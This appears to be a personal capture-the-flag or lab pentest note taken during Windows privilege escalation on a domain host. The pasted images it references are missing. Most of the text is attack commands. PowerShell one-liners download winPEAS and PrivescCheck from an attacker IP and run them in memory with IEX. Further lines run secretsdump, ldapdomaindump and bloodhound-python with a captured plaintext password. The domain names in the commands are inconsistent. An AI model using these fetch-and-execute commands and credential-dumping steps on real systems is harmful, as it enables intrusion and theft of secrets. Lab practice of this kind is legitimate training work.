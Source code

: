 
![[Pasted image 20240924041011.png]]

![[Pasted image 20240924041046.png]]

```
Invoke-WebRequest -Uri http://10.10.16.6/Auto/winPEASx64.exe -OutFile winpeas.exe
```
![[Pasted image 20240924042731.png]]

I think some kind of antivirus is running behind
![[Pasted image 20240924043719.png]]

Now there are 2 ways either to try 
ldap
secrets dump
bloodhound
and see what we get so that we can escalate 


Secrets Dump
```
secretsdump.py holo.live/tushikikatomo:'finance1'@10.10.10.179
```

Ldap
```
ldapdomaindump ldaps://10.10.10.179 -u 'megacorp.local\tushikikatomo' -p 'finance1'
```
![[Pasted image 20240924141609.png]]

Bloodhound
```
bloodhound-python -d megacorp.local -u tushikikatomo -p 'finance1' -ns 10.10.10.179  -c all
```



Let's get back to script and see what we can do there
```
IEX(New-Object Net.WebClient).DownloadString('http://10.10.14.20/PrivescCheck.ps1'); Invoke-PrivescCheck -Extended
```

```
Invoke-WebRequest -Uri http://10.10.16.6/Auto/winPEASx64.exe -OutFile winpeas.exe
```

```
IEX(New-Object Net.WebClient).DownloadString('http://10.10.16.6/Auto/winPEASx64.exe'); Invoke-winPEASx64 -Extended
```

```
echo IEX(New-Object Net.WebClient).DownloadString('http://10.10.16.6/Auto/winPEASx64.exe') | powershell -noprofile -
```


```
IEX(New-Object Net.WebClient).downloadString('http://10.10.16.6/PEASS-ng/winPEAS/winPEASps1/winPEAS.ps1')
```


```
IEX(New-Object Net.WebClient).downloadString('http://10.10.16.6/PrivescCheck/PrivescCheck.ps1'); Invoke-PrivescCheck -Extended
```

![[Pasted image 20240924225659.png]]

